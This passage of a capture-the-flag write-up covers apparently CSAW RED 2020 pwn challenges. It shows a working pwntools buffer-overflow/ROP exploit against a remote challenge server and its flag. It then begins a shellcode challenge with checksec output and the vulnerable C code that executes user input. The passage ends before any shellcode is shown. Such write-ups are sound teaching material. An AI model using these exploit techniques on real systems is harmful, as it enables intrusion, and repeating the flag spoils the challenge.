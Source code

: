 ```python
from pwn import *

exe = ELF("./helpme")
r = remote("pwn.red.csaw.io", 5002)

rop = ROP(exe)
ret = rop.find_gadget(["ret"]).address
r.sendline(b"A"*40 + p64(ret) + p64(exe.sym["binsh"]))

r.interactive()
```

## Flag
```
flag{U_g07_5h311!_wh4t_A_h4xor!}
```

# pwn - Level 1 Spellcode
> Welcome Level 1 wizard! Write your own spellcode to pwn your way to the wizards' lab. (Attribution: the "spellcode" idea is not original, see [sourcery.pwnadventure.com](http://sourcery.pwnadventure.com/) (not part of the challenge.) For shellcoding references and examples, see "Hacking: the Art of Exploitation" by Jon Erickson or reference [shell-storm.org/shellcode](http://shell-storm.org/shellcode). For more Level 1 spells (not required to solve), see the D&D Player's Handbook, 5th edition. `nc pwn.red.csaw.io 5000`

## Files
- level\_1\_spellcode
- level\_1\_spellcode.c

## Solution
```
$ checksec level_1_spellcode
[*] '/home/darin/ctfs/red-2020/level1/level_1_spellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Things you love to see. Looking at the code, it appears that option 6 will take any shellcode we enter and run it.

```c
    else if (selection == 6){
        printf("Enter your spell code (up to %d bytes): > ", BUFSIZE);
        fflush(stdout);
        // Make sure there is something to run
        int code_length = read(0, shellcode, BUFSIZE);
        if(code_length > 0){
            void (*runthis)() = (void (*)()) shellcode;
            runthis();
        }
    }
```
